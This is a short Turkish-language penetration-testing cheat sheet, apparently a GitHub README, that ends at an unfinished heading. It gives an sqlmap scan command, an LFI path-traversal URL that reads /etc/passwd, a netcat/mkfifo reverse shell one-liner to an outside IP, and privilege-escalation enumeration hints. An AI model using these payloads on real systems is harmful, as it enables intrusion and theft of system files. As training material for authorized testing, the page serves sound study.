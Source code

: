    **Sqlmap**
   Güvenlik açığı bulunan isteği Burp gibi bir proxy kullanarak yakalayabilir, bir metin dosyasına kaydedebilir ve ardından SQLMap ile tarayabilirsiniz.

   `sqlmap -r dosyası.req`

   **LFI/RFI**

   Diyelim ki url de bulunan `/page` parametresi dosya ekleme güvenliğine karşı savunmasız;

   `http://target.com/?page=home`

   Eğer sistem Linux ise;

   `http://target.com/?page=./../../../../../../../../../etc/passwd%00`

   ile `/etc/passwd` içeriğini görebiliriz. (%00 ---> bunun amacı dizeyi sonlandırmaktır)

   **Command Injection**

   Hayal gücünüzü kullanarak kod parçacığının arka tarafta nasıl görünebileceğini ve kendi komutlarınızı nasıl enjekte edebileceğinizi düşünün!

   Eğer yürütebileceğiniz bir kod bulduysanız netcat'te ki `-e` parametresini kullanmadan shell alabilirsiniz;

   `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`


# Privileged Escalation

|Method | Hint|
|------ | ----|
|Basic system info | OS/Kernel/System name, etc|
|Networking Info | ifconfig, route, netstat, etc|
|Miscellaneous filesystem info | mount, fstab, cron jobs, etc|
|User info | current user, all users, super users, command history, etc|
|File and Directory permissions | world-writeable files/dirs, suid files, root home directory|
|Files containing | plaintext passwords| 
|Interesting files, processes and applications | all processes and packages, sudo version, apache config file, etc|
|All installed languages and tools | gcc, perl, python, nmap, netcat, wget, ftp, etc|
|All relevant privilege escalation exploits | using a comprehensive dictionary of exploits with applicable kernel versions, software packages/processes, etc|

**Windows açıklarını kendinize göre derleyerek arşivleyin.

  **Sudo**

    sudo su

    sudo  -l
  **Lineum**
